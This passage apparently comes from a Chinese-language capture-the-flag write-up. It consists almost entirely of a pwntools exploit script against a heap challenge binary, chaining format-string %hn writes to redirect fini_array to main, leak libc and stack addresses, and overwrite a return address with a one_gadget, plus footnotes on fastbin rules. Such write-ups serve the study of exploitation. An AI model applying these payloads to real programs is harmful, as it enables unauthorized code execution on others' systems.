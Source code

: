 ```python
    p.recvuntil("order:\n")
    p.sendline(content)
def free(cmd):
    command(cmd+2)

free_got = elf.got['free']
fini_array = 0x6011B8
main_addr = 0x400A39

# ====round1====
# free book2 放入 unsortedbin 
free(2)
# 修改 fini_array 为 main
# 泄露 libc_base
# 泄露 stack 地址
payload1 = "%2617c%13$hn" + '|' + "%14$s" + '-' + "%24$p"
payload1 = payload1.ljust(0x74,'a').ljust(0x88,'\x00')
payload1 += p64(0x151)      
edit(1,payload1)            

# 从菜单选项将fini_array和free_got写入到栈上
payload2 = '5'*8 + p64(fini_array) + p64(free_got)
p.recvuntil("5: Submit\n")
p.sendline(payload2)
p.recvuntil("|")
p.recvuntil("|")
p.recvuntil("|")

# 处理libc地址
free_addr = u64(p.recv(6).ljust(8,'\x00'))
log.info("free_addr:"+hex(free_addr))
libc_base = free_addr - libc.symbols['free']
log.info("libc_base:"+hex(libc_base))
onegadget = libc_base + 0x45226 
log.info("onegadget:"+hex(onegadget))

# 处理栈地址
p.recvuntil("-")
ret_addr = int(p.recv(14),16)
log.info("ret_addr:"+hex(ret_addr))
attack_addr = ret_addr - 0x106
log.info("attack_addr:"+hex(attack_addr))

# ====round2====

# 同 round1
free(2)

# 处理格式化字符串填充字节数，处理高地址值小于低地址情况
one_1 = onegadget & 0xffff
log.info("one_1:"+hex(one_1))
one_2 = onegadget>>16 & 0xffff
log.info("one_2:"+hex(one_2))
if one_1 > one_2:
    one_2 = one_2 + 0x10000 - one_1
else:
    one_2 -= one_1

# 修改第二次main返回地址
payload4 = "%{}c%13$hn".format(one_1) + "%{}c%14$hn".format(one_2)
payload4 = payload4.ljust(0x74,'c').ljust(0x88,'\x00')
payload4 += p64(0x151)
edit(1,payload4)
```

[^1]: fastbin 不与物理地址相邻 fastbin 合并，不与 top chunk 合并
[^2]: 分配的安全检查机制，请看 malloc 函数介绍